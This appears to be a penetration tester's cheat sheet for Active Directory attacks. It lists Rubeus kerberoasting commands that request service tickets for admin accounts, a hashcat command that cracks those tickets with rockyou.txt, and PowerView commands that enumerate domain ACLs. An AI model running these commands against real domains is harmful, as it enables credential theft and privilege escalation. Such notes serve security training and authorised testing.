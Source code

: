 ### Kerberoasting with Rubeus

#### Using the /stats Flag
```PowerShell
.\Rubeus.exe kerberoast /stats
```
Used to check the kerberoast stats (/stats) within the target Windows domain from a Windows-based host.

#### Using the /nowrap Flag
```PowerShell
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
Used to request/download TGS tickets for accounts with the admin count set to 1 then formats the output in an easy to view & crack manner (/nowrap) . Performed from a Windows-based host. ^9275d4

```PowerShell
.\Rubeus.exe kerberoast /user:testspn /nowrap
```
Used to request/download a TGS ticket for a specific user (/user:testspn) the formats the output in an easy to view & crack manner (/nowrap). Performed from a Windows-based host.

```PowerShell
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes 
```
PowerView tool used to check the msDS-SupportedEncryptionType attribute associated with a specific user account (testspn). Performed from a Windows-based host.

#### Cracking the Ticket with Hashcat & rockyou.txt
```cmd.exe
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt
```
Used to attempt to crack the ticket hash using a wordlist (rockyou.txt) from a Linux-based host . ^8ec83f


## ACL Enumeration & Attacks

#### Find-InterestingDomainAcl
```PowerShell
Find-InterestingDomainAcl
```
PowerView tool used to find object ACLs in the target Windows domain with modification rights set to non-built in objects from a Windows-based host. *Not the most efficient method.*

#### Convert SamAccountName to SID 
```PowerShell
Import-Module .\PowerView.ps1 $sid = Convert-NameToSid wley
```
Used to retrieve the SID of a specific user account (wley) from a Windows-based host. This will allow a targeted search using Get-DomainObjectACL.

#### Using Get-DomainObjectACL
```PowerShell
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```
Used to find all Windows domain objects that the user has rights over by mapping the user's SID to the SecurityIdentifier property from a Windows-based host.
